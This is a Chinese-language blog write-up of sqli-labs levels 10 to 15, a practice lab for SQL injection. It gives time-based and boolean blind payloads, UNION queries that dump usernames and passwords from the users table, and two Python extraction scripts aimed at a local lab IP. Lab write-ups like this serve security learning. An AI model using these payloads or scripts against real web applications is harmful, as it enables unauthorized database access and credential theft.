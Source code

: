 ```yaml
---
layout: post
title: "sqli-labs-第10关->第15关"
subtitle: "sqli-labs-第10关->第15关"
date: 2019-08-30
author: ppbibo
category: security
finished: true
---
```

[TOC]

PS：最近总是不知道学啥了所以复习下sql注入，总结下笔记。

接着上次的继续-[传送门]([https://6o9.im/security/2019/02/14/Sqli-labs-%E5%AD%A6%E4%B9%A0-%E9%95%BF%E6%9C%9F%E6%9B%B4%E6%96%B0.html](https://6o9.im/security/2019/02/14/Sqli-labs-学习-长期更新.html))



## sqli-labs 第10关

观察源代码发现闭合双引号即可-如下：

```mysql
http://192.168.1.101/sqli-labs/Less-10/?id=2" and sleep(5)%23
```

上面语句成功延时5秒判断存在时间盲注

```mysql
http://192.168.1.101/sqli-labs/Less-10/?id=2" and if(1=2,sleep(5),1)%23
```

上面利用if语句来判断条件表达式不成立，所以没有延时，确定存在基于时间的sql注入

```mysql
http://192.168.1.101/sqli-labs/Less-10/?id=2?id=2"  and If(ord(substr(database(),1,1))=115,sleep(5),1)%23
```

根据payload写出python脚本

思路：

数据库的长度一般不会超过20个字符所有利用range(21) 循环出 1-20 ，这里因为是靶机我们知道数据库全部为字母（ascii 码值 a-z:97-122）所以利用range(97,123 )循环出97-122 ，将他们进行循环遍历，这里用到 timeout(3) 来进行异常处理，最大处理时间为3秒。

判断条件成立就会延时5秒再回显结果，而接收请求最大秒数我们定义了3秒，所以会爆请求超时的异常。

```python

import requests

for j in range(21):

    for i in range(97,123):

        try:
            re = requests.request("get",url="http://192.168.1.101/sqli-labs/Less-10/?id=2?id=1%22%20and%20if(ord(substr(database(),{},1))={},sleep(5),1)%23".format(j,i),timeout=3)
            continue

        except:

            print(chr(i))

```

**RT：**

![sqli-labs-10](/static/img/sqli-labs-10.png)

成功输出当前数据库的名称。



## sqli-labs 第11关 

查看源代码**RT：**

![sqli-labs-11](/static/img/sqli-labs-11.png)

order by 判断字段 **RT:**

```mysql
POST:
username=a' order by 3#     
```

```mysql
POST:
username=a' union select 1,2#
```

![sqli-labs-11-1](/static/img/sqli-labs-11-1.png)



查看当前用户可操作的所有数据库 **RT：**

```mysql
POST:
username=a' union select 1,group_concat(schema_name) from information_schema.schemata#
```

![sqli-labs-11-2](/static/img/sqli-labs-11-2.png)

当前数据库为 security 所以查看下 security 数据库下面的表 **RT :**

```mysql
POST:
username=a' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'security'#
```

![sqli-labs-11-3](/static/img/sqli-labs-11-3.png)

知道了表名接下来就是字段了 **RT：**

```mysql
POST:
username=a' union select 1,group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name = 'users'#
```

![sqli-labs-11-4](/static/img/sqli-labs-11-4.png)

字段直接查询即可,得到所有的用户名密码，如下：

```mysql
POST:
username=a' union select 1,group_concat(username,password) from users#
```



## sqli-labs 第12关 

观察源代码 **RT :**

![sqli-labs-12](/static/img/sqli-labs-12.png)



闭合前面的符号达到sql注入 **RT：**：

```mysql
POST:
username=1") order by 4#
```

![sqli-labs-12-1](/static/img/sqli-labs-12-1.png)



接下来和上一关是一样的，参考 sqli-labs 第11关。

```bash
1") union select 1,group_concat(schema_name) from information_schema.schemata#
```

```bash
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#
```

```bash
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1") union select 1,group_concat(username,password) from users#
```



## sqli-labs 第13关  

还是看了下源代码 **RT：**

![sqli-labs-13](/static/img/sqli-labs-13.png)



闭合前面的语句执行我们想要的sql语句 **RT :**

![sqli-labs-13-1](/static/img/sqli-labs-13-1.png)

接下来还是那么的顺利，参考 sqli-labs 第12关

```bash
1') union select 1,group_concat(schema_name) from information_schema.schemata#
```

```bash
1') union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#
```

```bash
1') union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1') union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1') union select 1,group_concat(username,password) from users#
```



## sqli-labs 第14关 

查看源代码 **RT：**

![sqli-labs-14](/static/img/sqli-labs-14.png)



闭合执行sql语句（判断存在几个字段）

![sqli-labs-14-1](/static/img/sqli-labs-14-1.png)

接下来一切顺理成章

```bash
1" union select 1,group_concat(schema_name) from information_schema.schemata#
```

```bash
1" union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#
```

```bash
1" union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1" union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1" union select 1,group_concat(username,password) from users#
```



## sqli-labs 第15关 

写完就回去了，还是看源代码 **RT:**

![sqli-labs-15](/static/img/sqli-labs-15.png)



![sqli-labs-15-1](/static/img/sqli-labs-15-1.png)

执行sql语句 **RT：**

```mysql
1' or 1=1#
```

![sqli-labs-15-2](/static/img/sqli-labs-15-2.png)

猜测数据库的长度为8位 **RT：**

```mysql
1' or (length(database()))=8#
```

调试中 **RT:**

![sqli-labs-15-debug](/static/img/sqli-labs-15-debug.png)

输出脚本 **RT**：

```python
import requests

sql_url = "http://192.168.1.101/sqli-labs/Less-15/"

for j in range(9): # 前面知道了数据库长度为8位

    for i in range(97, 123):  # ascii 码值 a-z : 97-122

        re = requests.request("POST",url=sql_url,data={"uname":"1' or ord(mid((select database()),{},1))={}#".format(j,i),"passwd":"1"})

        if "flag.jpg" in re.text:

            print(chr(i))
```

![sqli-labs-15-3](/static/img/sqli-labs-15-3.png)



## 总结

**持续更新先记下**

万变不离其宗只要有数据库发生互交的地方不管输入点在哪，只要没有进行绝对的交验就会发生SQL注入，手指以麻痹，回家吃手抓饼，告辞。



------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***
